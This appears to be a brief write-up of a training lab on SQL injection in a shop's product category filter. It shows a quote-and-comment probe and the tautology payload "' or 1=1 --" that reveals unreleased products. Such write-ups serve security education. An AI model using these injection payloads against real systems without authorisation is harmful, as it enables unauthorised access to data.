 # Description:

This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:
SELECT * FROM products WHERE category = 'Gifts' AND released = 1

To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products. 

# Analysis: 

SQL injection - Product Category Filter

Query: SELECT * FROM products WHERE category = 'Gifts' AND released = 1

End goal: display all products both released unreleased.

SELECT * FROM products WHERE category = 'Gifts' AND released = 1

Broke the application by adding a ' sql character to the query stringto see if this is vulnerabilitiesto sql injection:
    SELECT * FROM products WHERE category = ''' AND released = 1

Put a sql comment to see if this is SQL injection vulnerable:
    SELECT * FROM products WHERE category = ''--' AND released = 1

Query to display all the products:
    SELECT * FROM products WHERE category = '' or 1=1 --' AND released = 1

Need to be in the same file to run python3.